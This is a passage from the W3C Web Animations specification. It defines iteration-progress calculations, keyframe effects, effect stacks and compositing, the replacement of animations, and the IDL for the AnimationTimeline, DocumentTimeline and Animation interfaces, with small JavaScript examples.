   : Let *overall progress* be the result of calculating `active time / iteration duration`.
3. Return the result of calculating `overall progress + iteration start`.

##### 4.7.4. Calculating the simple iteration progress {#web-animations-1:calculating-the-simple-iteration-progress}

The **simple iteration progress** is a fraction of the progress through the current iteration that ignores transformations to the time introduced by the playback direction or easing functions applied to the effect, and is calculated as follows:

1. If the overall progress is unresolved, return unresolved.
2. If overall progress is infinity, let the *simple iteration progress* be `iteration start % 1.0`; otherwise, let the *simple iteration progress* be `overall progress % 1.0`.
3. If *all* of the following conditions are true:

  - the *simple iteration progress* calculated above is zero, *and*
  - the animation effect is in the active phase *or* the after phase, *and*
  - the active time is equal to the active duration, *and*
  - the iteration count is *not* equal to zero.

   Let the *simple iteration progress* be 1.0.

   > **Note:** The above step implements the behavior that when an animation’s active interval ends precisely at the end of an iteration, it fills by holding the endpoint of the final iteration rather than the start of the next iteration.
   >
   > The final condition prevents this from applying when we never played any iterations of the animation to begin with because the iteration count was zero.
4. Return *simple iteration progress*.

##### 4.7.5. Calculating the current iteration index {#web-animations-1:calculating-the-current-iteration}

The **current iteration index** can be calculated using the following steps:

1. If the active time is unresolved, return unresolved.
2. If the animation effect is in the after phase *and* the iteration count is infinity, return infinity.
3. If the simple iteration progress is 1.0, return `floor(overall progress) − 1`.
4. Otherwise, return `floor(overall progress)`.

##### 4.7.6. Calculating the directed progress {#web-animations-1:calculating-the-directed-progress}

The **directed progress** is calculated from the simple iteration progress using the following steps:

1. If the simple iteration progress is unresolved, return unresolved.
2. Calculate the *current direction* using the first matching condition from the following list:

   **If playback direction is normal,**

   : Let the *current direction* be forwards.

   **If playback direction is reverse,**

   : Let the *current direction* be reverse.

   **Otherwise (the playback direction is alternate or alternate-reverse)p,**

   : 1. Let *d* be the current iteration index.
  2. If playback direction is alternate-reverse increment *d* by 1.
  3. If `d % 2 == 0`, let the *current direction* be forwards; otherwise let the *current direction* be reverse. If *d* is infinity, let the *current direction* be forwards.
3. If the *current direction* is forwards then return the simple iteration progress.

   Otherwise, return `1.0 − simple iteration progress`.

##### 4.7.7. Calculating the transformed progress {#web-animations-1:calculating-the-transformed-progress}

The **transformed progress** is calculated from the directed progress using the following steps:

1. If the directed progress is unresolved, return unresolved.
2. Calculate the value of the *before flag* as follows:

  1. Determine the *current direction* using the procedure defined in [§ 4.7.6 Calculating the directed progress](#web-animations-1:calculating-the-directed-progress).
  2. If the *current direction* is forwards, let *going forwards* be true; otherwise it is false.
  3. The *before flag* is set if the animation effect is in the before phase and *going forwards* is true; or if the animation effect is in the after phase and *going forwards* is false.
3. Return the result of evaluating the effect easing function passing directed progress as the input progress value and *before flag* as the before flag.

##### 4.7.8. Yielding the iteration progress {#web-animations-1:the-iteration-progress}

The final output **iteration progress** of an animation effect is simply its transformed progress.

### 5. Animation model {#web-animations-1:animation-model}

*This section is non-normative*

For some kinds of animation effects, the **Web Animations animation model** takes the iteration progress and iteration index values produced by the timing model and uses them to calculate a corresponding output.

The output of each such animation effect is then combined with that of others using an effect stack before being applied to the target properties (see [§ 5.4 Combining effects](#web-animations-1:combining-effects)).

#### 5.1. Introduction {#web-animations-1:introduction-to-the-animation-model}

An animation effect has zero or more associated properties that it affects in response to changes to its timing output. These properties are referred to as the effect’s **target properties**.

Given an iteration progress, an iteration index, and an underlying value, an animation effect produces an **effect value** for each animatable target property by applying the procedures from the animation type appropriate to the property.

#### 5.2. Animating properties {#web-animations-1:animating-properties}

Unless otherwise specified, all CSS properties are **animatable**. How property values combine is defined by the **Animation type** line in each property’s property definition table:

****not animatable****

: The property is not animatable. It is not processed when listed in an animation keyframe, and is not affected by transitions.

  > **Note:** Properties are typically excluded from animation because animating them would create excessive complications. For example, properties defining animation parameters are not animatable since doing so would create complex recursive behavior.

  > **Note:** An animation effect that targets only properties that are not animatable will still exhibit the usual behavior for an animation effect such as firing events and delaying the fulfillment of the animation’s current finished promise.

****discrete****

: The property’s values cannot be meaningfully combined, thus it is not additive. Interpolation swaps from *Va* to *Vb* at 50% (*p=0.5*), i.e.

  Vresult=      Vstart   if p <0.5     Vend   if p ≥0.5

****by computed value****

: Corresponding individual components of the computed values are combined (interpolated, added, or accumulated) using the indicated procedure for that value type (see [CSS Values 4 § 3 Combining Values: Interpolation, Addition, and Accumulation](#css-values-4:combining-values)). If the number of components or the types of corresponding components do not match, or if any component value uses discrete animation and the two corresponding values do not match, then the property values combine as discrete.

****repeatable list****

: Same as by computed value except that if the two lists have differing numbers of items, they are first repeated to the least common multiple number of items. Each item is then combined by computed value. If a pair of values cannot be combined or if any component value uses discrete animation, then the property values combine as discrete.

  > **Note:** The repeatable list concept ensures that a list that is conceptually repeated to a certain length (as `background-origin` is repeated to the length of the `background-image` list) or repeated infinitely will smoothly transition between any values, and so that the computed value will properly represent the result (and potentially be inherited correctly).

**(See prose)**

: Some properties have specific interpolation behavior not covered by the above cases; in this case the animation behavior will be specified explicitly for that property.

The animation type of properties that do not yet include an Animation type line in their property definition, is defined in [Appendix A: Animation types of existing properties](#web-animations-1:animation-types).

##### 5.2.1. Custom Properties {#web-animations-1:custom-properties}

For custom properties registered using the `registerProperty()` method for the current global object, the animation type is by computed value, derived from the type used in the property’s syntax definition. Where there is no computed value type that corresponds to the property’s specified syntax (e.g. when the syntax is the universal syntax definition) or when the custom property is not registered, the animation type is discrete.

#### 5.3. Keyframe effects {#web-animations-1:keyframe-effects}

**Keyframe effects** are a kind of animation effect that uses the output of the timing model to update CSS properties of an element or pseudo-element (such as `::before` or `::after` [select]) referred to as the **effect target**.

The effect target is comprised of an `Element` known as the **target element** and a pseudo-element selector known as the **target pseudo-selector**. If the effect target is an `Element`, the target element is that element and the target pseudo-selector is null. If the effect target is a pseudo-element, the target element is its originating element and the target pseudo-selector is one that specifies that particular pseudo-element.

Note that not all effect targets specified in this manner (such as `::part()` pseudo-elements and unsupported pseudo-elements) have computed property values defined.

##### 5.3.1. Keyframes {#web-animations-1:keyframes-section}

The effect values for a keyframe effect are calculated by interpolating between a series of property values positioned at fractional offsets. Each set of property values indexed by an offset is called a **keyframe**.

The **offset of a keyframe** is a value in the range [0, 1] or the special value null. The list of keyframes for a keyframe effect must be **loosely sorted by offset**, which means that for each keyframe in the list that has a keyframe offset that is not null, the offset must be greater than or equal to the offset of the previous keyframe in the list with a keyframe offset that is not null, if any.

The behavior when keyframes overlap or have unsupported values is defined in [§ 5.3.4 The effect value of a keyframe effect](#web-animations-1:the-effect-value-of-a-keyframe-animation-effect).

Each keyframe also has a **keyframe-specific easing function** associated with it, which is an easing function that is applied to the period of time between the keyframe on which it is specified and the *next* keyframe in the list.

> **Note:** The easing function specified on the last keyframe in the list is never applied.

Each keyframe may have a **keyframe-specific composite operation** that, if set, is applied to all values specified in that keyframe. The possible operations and their meanings are identical to those defined for the composite operation associated with the keyframe effect as a whole in [§ 5.4.4 Effect composition](#web-animations-1:effect-composition). If the keyframe-specific composite operation for a keyframe is not set, the composite operation specified for the keyframe effect as a whole is used for values specified in that keyframe.

##### 5.3.2. Computing property values {#web-animations-1:computing-property-values}

To **compute a property value** given a property *property*, a value *value*, and an `Element` *element*: resolve *value* according to the “Computed Value” line of the *property*’s definition table, using the computed values of *element* as the context for resolving dependencies, and return the result.

> **Note:** The computed values on *element* are not affected by this algorithm.

This algorithm implies that property values specified in keyframes can establish order dependencies. When computing a property value, the computed values of dependencies held by *value* must be calculated *first*.

> **Example:** ```
> var animation = elem.animate([{ fontSize: '10px', width: '10em' },
>                               { fontSize: '20px', width: '20em' }], 1000);
> animation.currentTime = 500;
> console.log(getComputedStyle(elem).fontSize); // Should be 15px
> console.log(getComputedStyle(elem).width); // Should be 225px
> ```
>
> In this example, in order to compute a property value for `10em`, we need to know the computed value of `font-size` on the target element, which in turn is determined by the effect value for `font-size`, which in turn depends on computing property values for `font-size`. Hence, computing property values are subject to ordering constraints.

##### 5.3.3. Calculating computed keyframes {#web-animations-1:calculating-computed-keyframes}

Before calculating the effect value of a keyframe effect, the property values on its keyframes are [computed](#web-animations-1:computing-property-values), and the offset to use for any keyframes with a null keyframe offset is computed. The result of resolving these values is a set of **computed keyframes**.

The calculated keyframe offsets of a set of keyframe that includes suitable values for each null keyframe offset are referred to as the **computed keyframe offsets**.

To produce computed keyframe offsets, we define a procedure to **compute missing keyframe offsets** that takes a sequence of keyframes, *keyframes*, and has the following steps:

1. For each keyframe in *keyframes*, let the computed keyframe offset of the keyframe be equal to its keyframe offset value.
2. If *keyframes* contains more than one keyframe and the computed keyframe offset of the first keyframe in *keyframes* is null, set the computed keyframe offset of the first keyframe to 0.
3. If the computed keyframe offset of the last keyframe in *keyframes* is null, set its computed keyframe offset to 1.
4. For each pair of keyframes *A* and *B* where:

  - *A* appears before *B* in *keyframes*, and
  - *A* and *B* have a computed keyframe offset that is not null, and
  - all keyframes between *A* and *B* have a null computed keyframe offset,

   calculate the computed keyframe offset of each keyframe between *A* and *B* as follows:

  1. Let **offset*k*** be the computed keyframe offset of a keyframe *k*.
  2. Let *n* be the number of keyframes *between* and including *A* and *B* minus 1.
  3. Let *index* refer to the position of *keyframe* in the sequence of keyframes between *A* and *B* such that the first keyframe after *A* has an *index* of 1.
  4. Set the computed keyframe offset of *keyframe* to offset*A* + (offset*B* − offset*A*) × *index* / *n*.

Computed keyframes are produced using the following procedure. Note that this procedure is only performed on a keyframe effect having an effect target for which computed property values can be calculated.

1. Let *computed keyframes* be an empty list of keyframes.
2. For each *keyframe* in the list of keyframes specified on this keyframe effect, perform the following steps:

  1. Add a new empty keyframe, *computed keyframe*, to *computed keyframes*.
  2. For each property specified in *keyframe*:

    - Compute a property value using the value specified on *keyframe* as the value, and the target element as the element; then add the property and resulting value to *computed keyframe*.
    - For shorthand properties, add the equivalent longhand properties.
    - For logical properties [CSS-LOGICAL-1], add the equivalent physical properties [CSS-WRITING-MODES-4] based on the computed value of `writing-mode` and/or `direction` for the effect target.

     For example, if *keyframe* has a value of `12pt` for the `border-width` shorthand property, the user agent will compute a property value of `16px` for each of the longhand properties: `border-bottom-width`, `border-left-width`, `border-right-width`, and `border-top-width`. As a result, *computed keyframe* would *not* have a value for the `border-width` property, but would instead include each of the longhand properties, each with the value `16px`.

     If conflicts arise when expanding shorthand properties or replacing logical properties with physical properties, apply the following rules in order until the conflict is resolved:

    1. Longhand properties override shorthand properties (e.g. `border-top-color` overrides `border-top`).
    2. Shorthand properties with fewer longhand components override those with more longhand components (e.g. `border-top` overrides `border-color`).
    3. Physical properties override logical properties.
    4. For shorthand properties with an equal number of longhand components, properties whose IDL name (see the CSS property to IDL attribute algorithm [CSSOM]) appears earlier when sorted in ascending order by the Unicode codepoints that make up each IDL name, override those who appear later.
3. Apply the procedure to compute missing keyframe offsets to *computed keyframes*.
4. Return *computed keyframes*.

##### 5.3.4. The effect value of a keyframe effect {#web-animations-1:the-effect-value-of-a-keyframe-animation-effect}

The effect value of a single property referenced by a keyframe effect as one of its target properties, for a given *iteration progress*, *iteration index* and *underlying value* is calculated as follows.

1. If *iteration progress* is unresolved abort this procedure.
2. Let *target property* be the longhand property for which the effect value is to be calculated.
3. If animation type of the *target property* is not animatable abort this procedure since the effect cannot be applied.
4. If the keyframe effect does not have an effect target, or if the effect target cannot have computed property values calculated, abort this procedure.
5. Let *property-specific keyframes* be the result of getting the set of computed keyframes for this keyframe effect.
6. Remove any keyframes from *property-specific keyframes* that do not have a property value for *target property*.
7. If *property-specific keyframes* is empty, return *underlying value*.
8. If there is no keyframe in *property-specific keyframes* with a computed keyframe offset of 0, create a new keyframe with a computed keyframe offset of 0, a property value set to *underlying value*, a keyframe-specific composite operation of replace, and a keyframe-specific easing function of the linear easing function, and prepend it to the beginning of *property-specific keyframes*.
9. Similarly, if there is no keyframe in *property-specific keyframes* with a computed keyframe offset of 1, create a new keyframe with a computed keyframe offset of 1, a property value set to *underlying value*, a keyframe-specific composite operation of replace, and a keyframe-specific easing function of the linear easing function, and append it to the end of *property-specific keyframes*.

> **Note:** Other specifications may override the implicit keyframe generation behavior in the preceding two steps. For example, the [named timeline range keyframe selectors](#scroll-animations-1:named-range-keyframes) defined by Scroll Animations can cause these implicit keyframes not to be generated.
>
> A future level of this specification should incorporate the overridden behavior directly into this algorithm.

1. Let *interval endpoints* be an empty sequence of keyframes.
2. Populate *interval endpoints* by following the steps from the first matching condition below:

   **If *iteration progress* < 0 and there is more than one keyframe in *property-specific keyframes* with a computed keyframe offset of 0,**

   : Add the first keyframe in *property-specific keyframes* to *interval endpoints*.

   **If *iteration progress* ≥ 1 and there is more than one keyframe in *property-specific keyframes* with a computed keyframe offset of 1,**

   : Add the last keyframe in *property-specific keyframes* to *interval endpoints*.

   **Otherwise,**

   : 1. Append to *interval endpoints* the last keyframe in *property-specific keyframes* whose computed keyframe offset is less than or equal to *iteration progress* and less than 1. If there is no such keyframe (because, for example, the iteration progress is negative), add the last keyframe whose computed keyframe offset is 0.
  2. Append to *interval endpoints* the next keyframe in *property-specific keyframes* after the one added in the previous step.
3. For each *keyframe* in *interval endpoints*:

  1. If *keyframe* has a composite operation that is *not* replace, or *keyframe* has no composite operation and the composite operation of this keyframe effect is *not* replace, then perform the following steps:

    1. Let *composite operation to use* be the composite operation of *keyframe*, or if it has none, the composite operation of this keyframe effect.
    2. Let *value to combine* be the property value of *target property* specified on *keyframe*.
    3. Replace the property value of *target property* on *keyframe* with the result of combining *underlying value* (*V*a) and *value to combine* (*V*b) using the procedure for the *composite operation to use* corresponding to the *target property*’s animation type.
4. If there is only one keyframe in *interval endpoints* return the property value of *target property* on that keyframe.
5. Let *start offset* be the computed keyframe offset of the first keyframe in *interval endpoints*.
6. Let *end offset* be the computed keyframe offset of last keyframe in *interval endpoints*.
7. Let *interval distance* be the result of evaluating `(iteration progress − start offset) / (end offset − start offset)`.
8. Let *transformed distance* be the result of evaluating the easing function associated with the first keyframe in *interval endpoints* passing *interval distance* as the input progress.
9. Return the result of applying the interpolation procedure defined by the animation type of the *target property* to the values of the *target property* specified on the two keyframes in *interval endpoints*, taking the first such value as *V*start and the second as *V*end and using *transformed distance* as the interpolation parameter *p*.

> **Note:** that this procedure assumes the following about the list of keyframes specified on the effect:
>
> - Each keyframe has a specified computed keyframe offset in the range [0, 1].
> - The list of keyframes is sorted in ascending order by computed keyframe offset.
> - For a given property, there is at most one specified property value on each keyframe.
>
> It is the responsibility of the user of the model (for example, a declarative markup or programming interface) to ensure these conditions are met.
>
> For example, for the [programming interface](#web-animations-1:programming-interface) defined by this specification, these conditions are met by the procedure to produce the computed keyframes that become the input to this procedure.

> **Note:** this procedure permits overlapping keyframes. The behavior is that at the point of overlap the output value jumps to the value of the last defined keyframe at that offset. For overlapping keyframes at 0 or 1, the output value for iteration progress values less than 0 or greater than or equal to 1 is the value of the first keyframe or the last keyframe in *keyframes* respectively.

> **Note:** that computed keyframes are “live”: user-agents behave as if they are recreated every time the effect value is calculated.
>
> For example, if there is an ongoing transition on the `font-size` property from `10px` to `20px`, a property value specified as `1em` in a keyframe would during [keyframe computation](#web-animations-1:calculating-computed-keyframes) resolve against the computed value in the range [`10px`, `20px`] produced by the transition on `font-size`.

#### 5.4. Combining effects {#web-animations-1:combining-effects}

*This section is non-normative*

After calculating the effect values for a keyframe effect, they are applied to the animation effect’s target properties.

Since it is possible for multiple in effect keyframe effects to target the same property it is often necessary to combine the results of several keyframe effects together. This process is called **compositing** and is based on establishing an effect stack for each property targeted by an in effect animation effect.

After compositing the results of keyframe effects together, the composited result is combined with other values specified for the target property.

The arrangement is illustrated below:


Overview of the application of effect values to their target properties.  The results of keyframe effects targeting the same property are composited together using an effect stack.  The result of this composition is then inserted into the CSS cascade at an appropriate point.

For the first part of this operation—​combining effect values that target the same property—​it is necessary to determine both *how* keyframe effects are combined with one another, as well as the *order* in which they are applied, that is, their relative *composite order*.

The matter of *how* effect values are combined is governed by the composite operation of the corresponding keyframe effects.

The relative *composite order* of effect values is determined by an effect stack established for each animated property.

##### 5.4.1. Animation classes {#web-animations-1:animation-classes}

This specification provides a common animation model intended to be used by other specifications that define markup or programming interfaces on top of this model. The particular markup or programming interface that generated an animation defines its **animation class**.

Further specifications may define specialized behavior for composite ordering between different classes of animations or within a particular class.

*This section is non-normative*

For example, animations whose class is “CSS animation” are defined as having a *higher* composite order than animations whose class is “CSS transition” but *lower* than other animations without a specific class.

Within the set of “CSS animation” objects, specialized composite ordering is defined based on the `animation-name` property amongst other factors.

##### 5.4.2. The effect stack {#web-animations-1:the-effect-stack}

An **effect stack** is associated with each property targeted by one or more keyframe effects. The effect stack establishes the relative composite order of keyframe effects.

The relative **composite order** of any two keyframe effects *A* and *B* within an effect stack is established by comparing their properties as follows:

1. Sort *A* and *B* by applying the following conditions in turn until the order is resolved,

  1. If *A* and *B*’s associated animations differ by class, sort by any inter-class composite order as defined for the corresponding classes.
  2. If *A* and *B* are still not sorted, sort by any class-specific composite order defined by the common class of *A* and *B*’s associated animations.
  3. If *A* and *B* are still not sorted, sort by the position of their associated animations in the global animation list.

Animation effects that sort earlier have *lower* composite order.

##### 5.4.3. Calculating the result of an effect stack {#web-animations-1:calculating-the-result-of-an-effect-stack}

In order to calculate the final value of an effect stack, the effect values of each keyframe effect in the stack are combined in composite order.

Each step in the process of evaluating an effect stack takes an **underlying value** as input.

For each keyframe effect in the stack, the appropriate effect value from the keyframe effect is combined with the underlying value to produce a new value. This resulting value becomes the underlying value for combining the next keyframe effect in the stack.

The final value of an effect stack, called the **composited value**, is simply the result of combining the effect value of the final (highest composite order) keyframe effect in the stack with the underlying value at that point.

##### 5.4.4. Effect composition {#web-animations-1:effect-composition}

The specific operation used to combine an effect value with anunderlying value is determined by the **composite operation** of the keyframe effect that produced the effect value.

This specification defines three composite operations as follows:

****replace****

: The result of compositing the effect value with the underlying value is simply the effect value.

****add****

: The effect value is added to the underlying value. For animation types where the addition operation is defined such that it is not commutative, the order of the operands is `underlying value + effect value`.

****accumulate****

: The effect value is accumulated onto the underlying value. For animation types where the accumulation operation is defined such that it is not commutative, the order of the operands is underlying value followed by effect value.

##### 5.4.5. Applying the composited result {#web-animations-1:applying-the-composited-result}

Applying a composited value to a target property is achieved by adding a specified value to the CSS cascade.

The level of the cascade to which this specified value is added depends on the class of the animation associated with the effect with the highest composite order in the effect stack for a given property. By default, the specified value is added to the Animation Origin of the cascade. [CSS-CASCADE-3]

> **Example:** For example, if the effect with the highest composite order is associated with a “CSS transition”-class animation, the composited value will be added to the Transition Origin of the cascade.

The composited value calculated for a CSS target property is applied using the following process:

1. Calculate the *base value* of the property as the value generated for that property by finding the computed value for that property in the absence of animations.
2. Establish the effect stack for the property (see [§ 5.4.2 The effect stack](#web-animations-1:the-effect-stack)).
3. Calculate the composited value of the effect stack passing in the *base value* of the property as the initial underlying value (see [§ 5.4.3 Calculating the result of an effect stack](#web-animations-1:calculating-the-result-of-an-effect-stack)).
4. Insert the composited value into the CSS cascade at the level defined for the class of the animation associated with the effect at the top of the effect stack established for the target property.

#### 5.5. Replacing animations {#web-animations-1:replacing-animations}

*This section is non-normative*

Using the programming interface defined in this specification, it is possible to repeatedly trigger new animations that contribute to an element’s animated style indefinitely.

For example, consider the following code:

> **Example:** ```
> elem.addEventListener('mousemove', evt => {
>   circle.animate(
>     { transform: `translate(${evt.clientX}px, ${evt.clientY}px)` },
>     { duration: 500, fill: 'forwards' }
>   );
> });
> ```

This will generate a new forwards-filling animation each time the mouse is moved, quickly producing hundreds, even thousands of forwards-filling animations.

If the user agent needed to retain *all* such animations, the list of animations would grow in an unbounded fashion, producing a memory leak.

This section defines a mechanism that causes overridden animations to be automatically removed unless the author explicitly requests they be retained.

##### 5.5.1. Replace state {#web-animations-1:animation-replace-state}

An animation maintains a **replace state** that can be one of the following values:

- **active**
- **removed**
- **persisted**

The initial value of an animation’s replace state is active.

The animation effects of an animation whose replace state is removed are not included in the effect stacks of their target properties.

##### 5.5.2. Removing replaced animations {#web-animations-1:removing-replaced-animations}

An animation is **replaceable** if *all* of the following conditions are true:

- The existence of the animation is *not* prescribed by markup. That is, it is *not* a CSS animation with an owning element, nor a CSS transition with an owning element.
- The animation’s play state is finished.
- The animation’s replace state is *not* removed.
- The animation is associated with a monotonically increasing timeline.
- The animation has an associated effect.
- The animation’s associated effect is in effect.
- The animation’s associated effect has an effect target.

When asked to **remove replaced animations** for a `Document`, *doc*, then for every animation, *animation*, that:

- has an associated animation effect whose effect target is a descendant of *doc*, and
- is replaceable, and
- has a replace state of active, and
- for which there exists for each target property of every animation effect associated with *animation*, an animation effect associated with a replaceable animation with a higher composite order than *animation* that includes the same target property

perform the following steps:

1. Set *animation*’s replace state to removed.
2. Create an `AnimationPlaybackEvent`, *removeEvent*.
3. Set *removeEvent*’s `type` attribute to remove.
4. Set *removeEvent*’s `currentTime` attribute to the current time of *animation*.
5. Set *removeEvent*’s `timelineTime` attribute to the current time of the timeline with which *animation* is associated.
6. If *animation* has a document for timing, then append *removeEvent* to its document for timing’s pending animation event queue along with its target, *animation*. For the scheduled event time, use the result of applying the procedure to convert timeline time to origin-relative time to the current time of the timeline with which *animation* is associated.

   Otherwise, queue a task to dispatch *removeEvent* at *animation*. The task source for this task is the DOM manipulation task source.

#### 5.6. Side effects of animation {#web-animations-1:side-effects-section}

For every property targeted by at least one animation effect that is current or in effect, and which is associated with an animation whose replace state is *not* removed, the user agent must act as if the `will-change` property [css-will-change-1] on the effect target includes the property.

> **Note:** As a result of the above requirement, if an animation targets, for example, the `transform` property of an element, a stacking context will be created for the effect target so long as the animation is in the before phase, the active phase or, if it has a fill mode of forwards or both, the after phase.

### 6. Programming interface {#web-animations-1:programming-interface}

*This section is non-normative*

In addition to the abstract model described above, Web Animations also defines a programming interface to the model. This interface can be used to inspect and extend animations produced by declarative means or for directly producing animations when a procedural approach is more suitable.

Exception annotations in this section list exceptions that originate from algorithms in this specification. They do not repeat exceptions produced by converting values according to Web IDL. The procedures for processing keyframes also propagate exceptions thrown by author-defined property accessors or iterator methods. Since such exceptions can be of any type, they are not enumerated in these annotations.

#### 6.1. Time values in the programming interface {#web-animations-1:time-values-in-the-programming-interface}

Time values are represented in the programming interface with the type `double`. Unresolved time values are represented by the value `null`.

#### 6.2. The `AnimationTimeline` interface {#web-animations-1:the-animationtimeline-interface}

Timelines are represented in the Web Animations API by the `AnimationTimeline` interface.

```webidl
[Exposed=Window]
interface AnimationTimeline {
  readonly attribute double? currentTime;
};
```

****`currentTime`**,  of type double, readonly, nullable**

: Returns the current time for this timeline or `null` if this timeline is inactive.

#### 6.3. The `DocumentTimeline` interface {#web-animations-1:the-documenttimeline-interface}

Document timelines, including the default document timeline, are represented in the Web Animations API by the `DocumentTimeline` interface.

```webidl
dictionary DocumentTimelineOptions {
  DOMHighResTimeStamp originTime = 0;
};

[Exposed=Window]
interface DocumentTimeline : AnimationTimeline {
  constructor(optional DocumentTimelineOptions options = {});
};
```

****`originTime`**,  of type DOMHighResTimeStamp, defaulting to `0`**

: The origin time for the timeline specified as a real number of milliseconds relative to the time origin.

****`DocumentTimeline (options)`****

: Creates a new `DocumentTimeline`. The `Document` with which the timeline is associated is the `Document` associated with the `Window` that is the current global object.

  ****`options`****

  : Configuration parameters for the newly-created timeline. This specification defines only the `originTime` member but other specifications may extend this set.

#### 6.4. The `Animation` interface {#web-animations-1:the-animation-interface}

Animations are represented in the Web Animations API by the **`Animation`** interface.

```webidl
[Exposed=Window]
interface Animation : EventTarget {
  constructor(optional AnimationEffect? effect = null,
              optional AnimationTimeline? timeline);
           attribute DOMString                id;
           attribute AnimationEffect?         effect;
           attribute AnimationTimeline?       timeline;
           attribute double?                  startTime;
           attribute double?                  currentTime;
           attribute double                   playbackRate;
  readonly attribute AnimationPlayState       playState;
  readonly attribute AnimationReplaceState    replaceState;
  readonly attribute boolean                  pending;
  readonly attribute Promise<Animation>       ready;
  readonly attribute Promise<Animation>       finished;
           attribute EventHandler             onfinish;
           attribute EventHandler             oncancel;
           attribute EventHandler             onremove;
  undefined cancel();
  undefined finish();
  undefined play();
  undefined pause();
  undefined updatePlaybackRate(double playbackRate);
  undefined reverse();
  undefined persist();
  [CEReactions]
  undefined commitStyles();
};
```

****`Animation (effect, timeline)`****

: Creates a new `Animation` object using the following procedure:

  1. Let *animation* be a new `Animation` object.
  2. Run the procedure to set the timeline of an animation on *animation* passing *timeline* as the *new timeline*; or, if the *timeline* argument is missing, passing the default document timeline of the `Document` associated with the `Window` that is the current global object.
  3. Run the procedure to set the associated effect of an animation on *animation* passing *source* as the *new effect*.

  ****`effect`****

  : An optional value which, if not `null`, specifies the associated effect to assign to the newly created animation.

  ****`timeline`****

  : An optional value which, if present, specifies the timeline with which to associate the newly-created animation. If missing, the default document timeline of the `Document` associated with the `Window` that is the current global object is used.

****`id`**,  of type DOMString**

: A string used to identify the animation.

****`effect`**,  of type AnimationEffect, nullable**

: The associated effect of this animation. Setting this attribute updates the object’s associated effect using the procedure to set the associated effect of an animation.

****`timeline`**,  of type AnimationTimeline, nullable**

: The timeline associated with this animation. Setting this attribute updates the object’s timeline using the procedure to set the timeline of an animation.

****`startTime`**,  of type double, nullable**

: Returns the start time of this animation. Setting this attribute updates the start time using the procedure to set the start time of this object to the new value.

****`currentTime`**,  of type double, nullable**

: The current time of this animation. Setting this attribute follows the procedure to set the current time of this object to the new value.

****`playbackRate`**,  of type double**

: The playback rate of this animation. Setting this attribute follows the procedure to set the playback rate of this object to the new value.

  > **Note:** Setting this attribute performs a synchronous update to the playback rate meaning that it does not make any attempt to synchronize with the playback state of animations running on a separate process or thread. As a result, setting the `playbackRate` for an in-flight animation can cause it to jump.
  >
  > To set the playback rate for an in-flight animation such that it smoothly updates, use the asynchronous `updatePlaybackRate()` method.

****`playState`**,  of type AnimationPlayState, readonly**

: The play state of this animation.

****`replaceState`**,  of type AnimationReplaceState, readonly**

: The replace state of this animation.

****`pending`**,  of type boolean, readonly**

: Returns true if this animation has a pending play task or a pending pause task.

****`ready`**,  of type Promise<Animation>, readonly**

: Returns the current ready promise for this object.

****`finished`**,  of type Promise<Animation>, readonly**

: Returns the current finished promise for this object.

****`onfinish`**,  of type EventHandler**

: The event handler for the finish event.

****`oncancel`**,  of type EventHandler**

: The event handler for the cancel event.

****`onremove`**,  of type EventHandler**

: The event handler for the remove event.

****`void cancel()`****

: Clears all effects caused by this animation and aborts its playback by running the cancel an animation procedure for this object.

****`void finish()`****

: Seeks the animation to the associated effect end in the current direction by running the finish an animation procedure for this object.

  **`DOMException` of type "`InvalidStateError`"**

  : Raised if this animation’s effective playback rate is zero, or if this animation’s effective playback rate is > zero and the associated effect end is infinity.

****`void play()`****

: Begins or resumes playback of the animation by running the procedure to play an animation passing true as the value of the *auto-rewind* flag.

  **`DOMException` of type "`InvalidStateError`"**

  : Raised if this animation’s effective playback rate is negative, the associated effect end is infinity, and its current time is unresolved or less than or equal to zero.

****`void pause()`****

: Suspends the playback of this animation by running the procedure to pause an animation for this object.

  **`DOMException` of type "`InvalidStateError`"**

  : Raised if this animation’s current time is unresolved, its playback rate is negative, and the associated effect end is infinity.

****`void updatePlaybackRate(playbackRate)`****

: Performs an asynchronous update of the playback rate of this animation by performing the seamlessly update the playback rate procedure, passing `playbackRate` as the *new playback rate*.

  ****`playbackRate`****

  : A finite real number specifying the updated playback rate to use.

****`void reverse()`****

: Inverts the playback rate of this animation and plays it using the reverse an animation procedure for this object. As with `play()`, this method unpauses the animation and, if the animation has already finished playing in the reversed direction, seeks to the start of the associated effect.

  **`DOMException` of type "`InvalidStateError`"**

  : Raised if this animation has no associated active timeline, or if its reversed effective playback rate would be negative, the associated effect end is infinity, and its current time is unresolved or less than or equal to zero.

****`void persist()`****

: Sets this animation’s replace state to persisted.

****`void commitStyles()`****

: Writes the current effect values produced by this animation’s animation effects to their corresponding effect targets' inline style using the commit computed styles procedure.

  Unlike most other methods defined on this interface, calling this method *does* trigger a style change event (see [§ 6.13 Model liveness](#web-animations-1:model-liveness)).

  **`DOMException` of type "`NoModificationAllowedError`"**

  : Raised if any effect target is not an element capable of having a style attribute.

  **`DOMException` of type "`InvalidStateError`"**

  : Raised if any effect target is not being rendered.

  > **Note:** In order to simplify the common case of persisting a completed animation, the procedure to commit computed styles uses endpoint-*inclusive* timing (see [§ 4.6.9.3 Interval timing](#web-animations-1:interval-timing)) when determining the phase of the animation (see [§ 4.6.6 Animation effect phases and states](#web-animations-1:animation-effect-phases-and-states)).
  >
  > As a result, the following code will persist the `transform: translateY(100px)` style in specified style despite not having a fill mode of forwards or both.
  >
  > ```
  > elem.animate({ transform: 'translateY(100px)' }, 200).finished.then(() => {
  >   elem.commitStyles();
  > });
  > ```

  > **Note:** Since the procedure to commit computed styles includes the effect values for the animation even if it is removed, this method is useful for retaining the effect of an animation after it has been replaced (see [§ 5.5.2 Removing replaced animations](#web-animations-1:removing-replaced-animations)) without retaining the actual animation.
  >
  > Note that the values committed are the *computed* values produced by the animation effects at the time when this method is called. Since these values are computed values, they do not reflect to changes to context such as responding to changes to CSS variables or recalculating `em` units based on changes to the computed `font-size` in the way the values produced by a live animation would.
  >
  > In order to retain full fidelity of a filling animation’s result after it has been replaced (see [§ 5.5 Replacing animations](#web-animations-1:replacing-animations)), the `persist()` method can be used, but note that doing so will mean the animation continues to consume resources.

To **commit computed styles** for an animation, *animation*:

1. Let *targets* be the set of all effect targets for animation effects associated with *animation*.
2. For each *target* in *targets*:

  1. If *target* is not an element capable of having a style attribute [CSS-STYLE-ATTR] (for example, it is a pseudo-element or is an element in a document format for which style attributes are not defined) throw a "`NoModificationAllowedError`" `DOMException` and abort these steps.
  2. If, after applying any pending style changes, *target* is not being rendered, throw an "`InvalidStateError`" `DOMException` and abort these steps.

